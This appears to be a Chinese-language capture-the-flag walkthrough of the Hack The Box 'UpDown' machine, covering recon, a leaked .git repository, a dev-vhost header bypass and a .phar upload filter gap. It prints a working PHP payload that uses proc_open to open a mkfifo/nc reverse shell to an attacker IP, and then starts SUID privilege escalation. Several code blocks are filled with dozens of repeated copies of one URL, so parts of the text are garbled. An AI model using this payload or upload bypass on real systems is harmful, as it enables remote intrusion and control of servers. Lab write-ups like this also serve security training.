





### 一、信息收集
1. 端口扫描
```shell
nmap -A 10.10.11.177
### 存在端口：20、80，存在web服务
```


>出现域名：siteisup.htb

2. 虚拟主机扫描
```shell
gobuster vhost -u http://siteisup.htb/ -w /usr/share/wordlists/SubDomain.txt 
### 出现子域名：http://dev.siteisup.htb/，但是无法访问
```

3. 目录扫描（针对两个域名进行扫描）
```shell
dirsearch -u http://siteisup.htb//    
dirsearch -u http://dev.siteisup.htb/
# 出现http://siteisup.htb/dev/.git/
```


### 二、漏洞利用
1. 下载文件
> wget -c -r -np -k -L -p http://siteisup.htb/dev/.git/

2. 使用GitKraken打开`.git`目录


- 找到提交New technique in header to protect our dev vhost.
```shell
# 出现以下内容
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header

# 用来保护dev.siteisup.htb，因此需要添加请求头：Special-Dev："only4dev" 
```
- 发现checker.php文件
```php

	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}
  
	# Create directory to upload our file.
	$dir = "uploads/".md5(time())."/";
	if(!is_dir($dir)){
        mkdir($dir, 0770, true);
  }
  
  # Upload the file.
	$final_path = $dir.$file;
	move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
```
> 经过代码审计，该脚本会对上传文件的每一行url进行校验，并且存在文件上传漏洞且`.phar`后缀文件没有被排除。因此，构造payload文件进行处理

3. 更改请求包访问域名：dev.siteisup.htb
```http
GET / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev:"only4dev" # 原有请求包添加这个
```


4. php配置信息收集
- 创建test1.phar文件
```php
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
<?php phpinfo(); ?>                        
```
在脚本教育URL期间，访问该脚本，获取以下php配置信息


> 如上图所示，部分php函数被禁用，存在proc_open可以利用

1. 反弹shell
- 设置本地监听
  > nc -lvnp 5555

2. 设置payload
```php
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
https://systemweakness.com/hack-the-box-htb-updown-walkthrough-940cf677cdc
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 5555 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
> 按照上一步的方法操作，可以获取webshell

### 三、权限提升
1. 寻找可以使用的SUID文件
```shell
# 执行语句
find . -perm /4000

# 出现二进制文件
./siteisup
```

2. 查看文件内容
```shell
strings siteisup
# 出现内容
/usr/bin/python /home/developer/dev/siteisup_test.py
```
https://blog.csdn.net/qq_45894840/article/details/127787106


